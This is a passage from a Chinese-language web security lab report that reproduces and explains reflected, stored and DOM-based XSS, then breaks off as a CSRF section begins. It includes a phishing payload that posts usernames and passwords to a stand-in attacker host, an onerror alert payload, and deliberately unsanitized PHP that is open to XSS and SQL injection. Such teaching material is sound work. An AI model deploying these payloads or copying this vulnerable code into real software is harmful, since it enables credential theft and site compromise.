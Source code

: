**钓鱼Payload示例**

```html
"><script>
document.body.innerHTML = '<form action="http://attacker.com/phish"><input name="user"><input name="pass" type="password"><input type="submit"></form>';
</script>
```

### 2.2 存储型XSS (Stored XSS)

#### 2.2.1 漏洞复现过程

1. 在留言板页面提交恶意脚本内容
2. 脚本被存储到数据库
3. 其他用户访问留言板时自动执行恶意脚本
4. 实现持久化攻击效果

#### 2.2.2 漏洞原理分析

漏洞成因在于输入数据存入数据库和从数据库查询输出时均未进行过滤处理。

**问题代码片段**：

```php
<?php
// 未过滤的用户输入直接存入数据库
$result = mysql_query($conn, "INSERT INTO xss (title, content) 
             VALUES ('".$_POST["title"]."', '".$_POST["content"]."')");

// 从数据库直接输出到页面
while($row = mysql_fetch_array($result2)) {
    echo "<tr><td>".$row['title']."</td><td>".$row['content']."</td>";
}
?>
```

### 2.3 DOM型XSS (DOM-based XSS)

#### 2.3.1 漏洞复现过程

1. 分析页面DOM结构：`<h6 id="id1">content</h6>`
2. 构造Payload：`<img src=x onerror=alert(1)>`
3. 成功触发弹窗

#### 2.3.2 漏洞原理分析

此类XSS的触发不依赖于服务器端处理，而是由于前端JavaScript代码不安全地操作DOM，直接将用户输入数据用于修改页面元素。

## 3. CSRF漏洞复现与分析

### 3.1 漏洞复现过程

1. 管理员登录系统
